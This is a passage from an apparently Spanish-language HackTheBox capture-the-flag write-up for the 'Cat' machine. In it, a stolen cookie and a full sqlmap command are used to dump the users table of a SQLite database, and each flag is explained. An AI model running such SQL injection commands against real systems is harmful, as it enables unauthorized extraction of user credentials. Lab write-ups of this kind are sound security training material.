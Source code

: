 ![alt text](/assets/img/writeups/hackthebox/cat_htb/image-14.png)

# Dump de la base de datos

Ahora vamos a utilizar esa cookie para poder hacer un dump de la base de datos.

Usamos SQLmap para hacer el dump.

```bash
    sqlmap -r aceptargatos --risk 3 --level 5 --batch --dbms=sqlite --dump --threads 10 -T users --dump
```

Este comando realiza un escaneo de inyección SQL en los parámetros de la petición. Como ya vimos que era potencialmente vulnerable a inyección SQL, indicamos el tipo de riesgo, nivel, tipo de la base de datos, el número de hilos a utilizar, la tabla que queremos extraer y que haga un dump.

![alt text](/assets/img/writeups/hackthebox/cat_htb/image-15.png)
